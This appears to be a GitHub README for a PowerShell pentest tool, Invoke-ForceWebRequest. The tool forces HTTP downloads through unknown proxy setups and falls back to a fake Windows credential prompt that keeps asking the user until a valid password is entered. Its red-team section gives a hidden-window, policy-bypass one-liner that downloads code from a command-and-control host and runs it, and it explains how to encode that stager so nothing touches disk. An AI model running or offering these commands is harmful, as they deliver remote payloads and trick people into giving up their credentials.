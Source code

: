# Invoke-ForceWebRequest (@daniel0x00)
Force HTTP GET in a computer with unknow internet config, trying to download the URL by downloading it directly and if it can't then using default proxy credentials and .pac proxy list. If none o them works, it will trick the user and request his credentials using the Windows default credential prompt.

## Description

Normally this script should be used in a pentest environment, when you're running this code in a target computer where you don't know exactly what is the outbound internet config. Internally, Invoke-ForceWebRequest will use another two functions:
* Invoke-BasicWebRequest: another function writed by me which allow me to create http webrequest with proxy config. Similar (but very basic) to Invoke-WebRequest native PowerShell function (which is only available on PowerShell v3+).
* [Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt): an improved version of this great function wrote by [@enigma0x3](https://github.com/enigma0x3)

## Usage

Using the function in a computer with no proxy or proxy with no authentication
```
PS C:\> . .\Invoke-ForceWebRequest.ps1
PS C:\> Invoke-ForceWebRequest google.com -DummyString html -Verbose
VERBOSE: Trying http get with method #1: simple request...

StatusCode Content
---------- -------
       200 <!doctype html><html itemscope="" itemtype="http://schema.org/WebPage" lang="es"><head><meta content="IE=edge" http-equiv="X-UA-Co...
``` 

Using the function in a computer that have an authenticated proxy, user will be prompt for a valid proxy credentials. Note that user will be prompt until he/she writes a valid credential.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/requesting-credentials.png "powershell webrequest proxy credentials")

When the user writes a valid credential, html will be returned.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/proxy-enabled.png "powershell webrequest proxy credentials granted")

 

From red-team point of view: let's say you are able to run some PowerShell code in the target machine through a VBA Macro or a malicious EXE, but you really don't know how the computer is connected to internet. So you run this payload to be sure you will get response from your target:
```
(assuming you wrote the script in the target computer to $env:temp folder)

C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -c "gc $env:temp\Invoke-ForceWebRequest.ps1 | out-string | iex; Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }"

    1: it will download code from URL comandandcontrol.com/payload.txt
    2: then it will check if the content of payload.txt is correct by checking a dummy-string that you know is inside payload.txt
    3: invoke (run) code of payload.txt (if you're a redteamer it will be some malicious code)
``` 

If you do not want to touch disk, you can also encode the entire function and the payload with [@samratashok](https://github.com/samratashok) nishang [Invoke-Encode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1), something like this:
```
1: Create a .ps1 file with the following, and call it for example 'temp.ps1'
    
    function Invoke-ForceWebRequest { ...... }

    Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }

2: Encode the entire file with @samratashok Invoke-Encode, which will create an 'encodedcommand.txt' file in your desktop:

    PS C:\> Invoke-Encode -DataToEncode C:\temp.ps1 -OutCommand

3: Copy the content of encodedcommand.txt and then use it in your PS code that you will execute in your target:

    C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -enc "ENCODED_COMMAND"
``` 
